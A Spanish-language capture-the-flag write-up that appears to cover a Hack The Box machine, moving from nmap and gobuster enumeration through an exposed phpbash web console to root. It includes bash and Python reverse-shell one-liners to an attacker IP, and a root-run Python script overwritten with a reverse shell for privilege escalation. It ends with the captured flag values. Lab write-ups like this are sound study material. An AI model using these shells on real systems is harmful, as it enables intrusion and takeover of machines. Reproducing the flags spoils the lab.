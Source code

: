 ![[Pasted image 20250705153021.png]]

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[Pasted image 20250705135441.png]]

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[Pasted image 20250705135536.png]]

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[Pasted image 20250705135627.png]]

>revisamos la web pero a primera vista no hay gran cosa 

![[Pasted image 20250705135759.png]]

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[Pasted image 20250705135903.png]]

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[Pasted image 20250705135956.png]]

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[Pasted image 20250705140110.png]]

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[Pasted image 20250705140304.png]]

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[Pasted image 20250705140342.png]]

>Hemos encontrado la consola interactiva

## phpbash.php

![[Pasted image 20250705140421.png]]

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[Pasted image 20250705140711.png]]

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[Pasted image 20250705140758.png]]

vemos que el paquete se tramita

![[Pasted image 20250705140816.png]]

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[Pasted image 20250705141401.png]]

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[Pasted image 20250705141439.png]]

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[Pasted image 20250705145256.png]]

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[Pasted image 20250705145632.png]]

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[Pasted image 20250705145939.png]]

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[Pasted image 20250705150044.png]]

![[Pasted image 20250705150103.png]]

>investigamos el archivo test.py

![[Pasted image 20250705150140.png]]


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[Pasted image 20250705150402.png]]

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[Pasted image 20250705151139.png]]

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[Pasted image 20250705151252.png]]

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e